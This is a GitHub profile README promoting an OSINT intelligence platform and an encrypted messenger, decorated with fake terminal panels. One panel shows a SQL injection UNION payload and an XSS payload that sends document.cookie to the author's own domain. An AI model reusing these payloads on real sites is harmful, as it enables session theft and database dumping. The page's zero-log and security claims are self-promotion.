

<div align="center">

  <!-- Interactive Animated Cyber Banner -->
  

  <br/>

  <!-- Dynamic Typing Terminal Line -->
  <a href="https://datawire.cc">
    
  </a>

  <br/>

  <!-- Direct Platform Badges -->
  <p align="center">
    <a href="https://datawire.cc"></a>
    <a href="https://github.com/famefashion"></a>
    
  </p>

</div>

---

### ⚡ Interactive Security & Exploitation HUD

<div align="center">
  
</div>

---

### 💻 Interactive Cyber Terminal // `famefashion@node`

> *Click any command to execute the simulated diagnostic subroutines:*

<details open>
<summary><b>▶ <code>famefashion@recon:~$ ./exploit_audit --target=webapps</code></b></summary>

```console
[+] INITIALIZING AUDIT RUNNER // KERNEL 6.11-HARDENED
[+] TARGET SURFACE     : Enterprise Web Endpoints & Database Tunnels
[+] VECTOR [SQLi]      : Injecting boolean-based & UNION payloads...
                         [*] Query: ' UNION SELECT null, table_name, column_name FROM information_schema.columns -- -
                         [*] Database Dump: Extracted schema & records [VERIFIED]
[+] VECTOR [XSS]       : DOM / Reflected XSS sanitization audit...
                         [*] Payload: <svg/onload=fetch('//datawire.cc/log?c='+document.cookie)>
                         [*] Execution: CSP bypass verified on insecure endpoints
[+] VECTOR [PENTEST]   : Web Exploitation (WEBEXP) complete. 0 false positives.
```
</details>

<details>
<summary><b>▶ <code>famefashion@disasm:~$ objdump -M intel -d ./veigram_core.bin</code></b></summary>

```nasm
0000000000401120 <_veigram_dispatch_engine>:
  401120:  48 83 ec 28           sub    rsp, 0x28
  401124:  48 89 7c 24 18        mov    QWORD PTR [rsp+0x18], rdi
  401129:  48 8b 05 c0 2e 00 00  mov    rax, QWORD PTR [rip+0x2ec0]
  401130:  48 85 c0              test   rax, rax
  401133:  74 14                 je     401149 <_veigram_dispatch_engine+0x29>
  401135:  48 8b 4c 24 18        mov    rcx, QWORD PTR [rsp+0x18]
  40113a:  ff d0                 call   rax
  40113c:  48 83 c4 28           add    rsp, 0x28
  401140:  c3                    ret    
  401141:  90                    nop
```
</details>

<details>
<summary><b>▶ <code>famefashion@intel:~$ curl -s https://datawire.cc/api/v1/status</code></b></summary>

```json
{
  "platform": "DataWire.cc",
  "founder": "famefashion",
  "disciplines": {
    "OSINT": "Open Source Intelligence // Multi-source identity discovery",
    "CSINT": "Cyber Security Intelligence // Attack surface & threat mapping",
    "GEOINT": "Geospatial Intelligence // Coordinate mapping & tracking"
  },
  "stack": "PostgreSQL, Rust, Async Python Microservices, High-Speed Ingestion",
  "status": "OPERATIONAL"
}
```
</details>

<details>
<summary><b>▶ <code>famefashion@crypto:~$ ./veigram_daemon --verify-zero-log</code></b></summary>

```console
[+] VEIGRAM CRYPTOGRAPHIC DAEMON v0.9.8-ALPHA
[+] ARCHITECTURE      : Zero-Knowledge Decentralized Mesh
[+] CIPHER SUITE      : Double Ratchet + XChaCha20-Poly1305 E2EE
[+] AUDIT LOG POLICY  : ZERO-LOG ENFORCED (0 bytes persisted to disk)
[+] ROUTING RELAYS    : Ephemeral Onion Nodes
[+] TELEMETRY CHECK   : No message tracking, zero indexing [VERIFIED]
[+] STATUS            : SECURE MESH OPERATIONAL
```
</details>

<details>
<summary><b>🕵️‍♂️ <code>[EASTER EGG] Decrypt Intercepted Transmission</code></b></summary>

```text
INTERCEPTED CIPHERTEXT:
RGF0YVdpcmV7ZjRtM2Y0c2gxMG5fcDBzdHVyM19tYXN0M3JfdjNydzRsbH0=

[HINT]: Run `echo "RGF0YVdpcmV7..." | base64 -d` in your local terminal.
```
</details>

---

### 🚀 Flagship Intelligence & Cryptographic Platforms

<div align="center">

| Platform | Specialization | Architecture | Status |
| :--- | :--- | :--- | :--- |
| **[DataWire.cc](https://datawire.cc)** | All-in-One OSINT, CSINT & GEOINT Intelligence Suite | Vite.js • PostgreSQL • Python • Async Pipelines | `🟢 PRODUCTION` |
| **Veigram** | Zero-Log End-to-End Encrypted Communications Platform | ELECTRON.js • Rust • Encrypted and Secure • Zero Telemetry | `🟣 IN ACTIVE ENGINEERING` |

</div>

<br/>

<!-- Veigram Showcase Card with Ghost Mascot -->
<div align="center">
  <table border="0" style="background: linear-gradient(135deg, #090514 0%, #15092a 50%, #090514 100%); border: 1.5px solid #3b0764; border-radius: 16px; padding: 20px; max-width: 840px; box-shadow: 0 0 30px rgba(168, 85, 247, 0.25);">
    <tr>
      <td width="30%" align="center" style="border: none; vertical-align: middle;">
        
      </td>
      <td width="70%" align="left" style="border: none; vertical-align: middle; padding-left: 20px;">
        <h3 style="margin-top: 0; color: #ffffff; letter-spacing: 2px;">🔮 VEIGRAM // ZERO-LOG ENCRYPTED COMMUNICATIONS</h3>
        <p style="color: #cbd5e1; font-size: 13px; line-height: 1.6;">
          Next-generation privacy-first real-time communications network built on zero-knowledge cryptography. Engineered from the ground up to eradicate surveillance vectors, metadata retention, and centralized indexing.
        </p>
        <p>
          
          
          
        </p>
        <ul style="color: #94a3b8; font-size: 12px; margin-bottom: 0;">
          <li><b>Zero Disk Persistence:</b> Ephemeral in-memory buffers automatically scrubbed upon packet transit.</li>
          <li><b>Post-Quantum Security:</b> Forward-secret ratchets and authenticated end-to-end cryptographic handshakes.</li>
          <li><b>High-Throughput Mesh:</b> Ultra-low latency voice &amp; text relay infrastructure built for scale.</li>
        </ul>
      </td>
    </tr>
  </table>
</div>

---

### 🛠️ Armory & Technical Stack

#### 🌐 Web Engineering Trinity & Applications
<p align="left">
  
  
  
  
  
  
</p>

#### ⚡ Native Systems & Low-Level Disassembly
<p align="left">
  
  
  
  
  
  
</p>

#### 🎯 Offensive Vector Badges
<p align="left">
  
  
  
  
  
  
  
</p>

---

### 📊 Hardened Telemetry Stream

<div align="center">

  <!-- Self-Hosted Guaranteed Telemetry Card (Never breaks or 503s) -->
  

  <br/><br/>

  <!-- Verified Streak Stats Card -->
  

</div>

---

### 🐍 Contribution Activity Snake

<div align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/famefashion/famefashion/output/github-contribution-grid-snake-dark.svg">
    <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/famefashion/famefashion/output/github-contribution-grid-snake.svg">
    
  </picture>
</div>

---

### 📡 Uplink & Secure Portal

<div align="center">
  <a href="https://datawire.cc">
    
  </a>
  &nbsp;
  <a href="https://github.com/famefashion">
    
  </a>
</div>

<br/>

<div align="center">
  <sub>⚡ Maintained by <b>famefashion</b>. Built for speed, precision, and zero attack surface.</sub>
</div>
